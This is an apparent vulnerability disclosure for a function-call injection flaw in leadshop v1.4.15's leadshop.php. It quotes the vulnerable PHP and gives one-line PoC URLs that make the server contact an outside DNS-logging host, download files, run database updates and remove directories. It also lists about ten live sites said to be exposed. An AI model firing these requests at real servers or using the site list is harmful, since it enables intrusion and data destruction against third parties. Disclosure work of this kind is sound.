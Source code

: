 There is an RCE vulnerability in qmpaas/leadshop(https://github.com/qmpaas/leadshop )
-
Description
-
There is an RCE vulnerability in qmpaas/leadshop (https://github.com/qmpaas/leadshop) (v1.4.15). An attacker can access the file leadshop.php and call any existing function through GET to control the target host.  
The vulnerability is in the leadshop/web/leadshop.php[27-61] file  

```  
 public function run()  
    {  
        //读取参数数据  
        $include = isset($_GET['include']) ? $_GET['include'] : "";  
        $data    = isset($_GET['data']) ? $_GET['data'] : "";  
        $meta    = isset($_GET['meta']) ? $_GET['meta'] : "";  
        //执行数据方法  
        if ($include) {  
            return call_user_func_array([$this, $include], [$meta, $data]);  
        } else {  
            //用于判断是否非法操作  
            $token = isset($_GET['token']) ? $_GET['token'] : "";  
            $html  = get_oss_url('index.html');  
            //判断锁文件是否存在，存在则是要执行更新  
            if (@file_exists(dirname(__DIR__) . "/install.lock")) {  
                if (@file_get_contents(dirname(__DIR__) . "/install.lock") === $token) {  
                    if (!isset($_SESSION['self_update'])) {  
                        //执行更新自身  
                        $this->SilentSelfUpdate();  
                    }  
                    //执行更新操作  
                    $version = get_version();  
                    $body    = $this->DownloadFile($html);  
                    echo str_replace('{$version}', $version, $body);  
                } else {  
                    die("检测到非法Token，请登录后台进入更新界面");  
                }  
            } else {  
                $version = get_version();  
                $body    = $this->DownloadFile($html);  
                echo str_replace('{$version}', $version, $body);  
            }  
        }  

    }  
```  

The call_user_func_array function is used directly, and $include, $data, and $meta receive get parameters, which allows us to run all functions in this file (parameters less than or equal to 2), such as:  
HttpGet (http access: poc: ```https://demo.leadshop.vip/leadshop.php?include=HttpGet&meta=6nup69.dnslog.cn```),  
ToMkdir (create folder: poc: ```https://demo.leadshop.vip/leadshop.php?include=ToMkdir&meta=1```),  
UpdateSql (perform database update: poc: ```https://demo.leadshop.vip/leadshop.php?include=UpdateSql```),  
DownloadFile (download file: poc: 
```https://demo.leadshop.vip/leadshop.php?include=DownloadFile&meta=www.baidu.com/img/flexible/logo/pc/peak-result.png```),  
RemoveDir (remove directory: poc: 
```https://demo.leadshop.vip/leadshop.php?include=RemoveDir&meta=[path]```)  
-
Proof of Concept:
-
Poc：
(This url is applied from DNSLog(http://dnslog.cn/) in advance. Click "Get SubDomain", access the poc, and click "Refresh Record" to Refresh.)  
```
https://demo.leadshop.vip/leadshop.php?include=HttpGet&meta=6nup69.dnslog.cn  
```
DNSLog picture:
![img](DNSLog.png)  
-
Impact
-
Attackers can call any existing functions at will, control the target server to access, download, create files, delete files, etc.
Access may make the server a dos server.
Download, so that an attacker can download the PHP Trojan to the server.
Creating and deleting will destroy normal services.
More than ten IPs are using this service(Fofa Search:"Powered By Leadshop © 2021").
```
https://8.141.175.3
http://www.huatianlinye.com
https://39.107.102.163
https://42.193.253.224
https://store.mianhuain.com
http://shop.yongzhitang.com
https://101.201.209.92
http://119.3.229.175:7788
https://101.200.231.65
https://zhangtong.store.mianhuain.com
```
-
Occurrences
-
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L27
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L35
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L103
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L304
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L328
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L349
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L395
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L444
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L477
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L495
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L509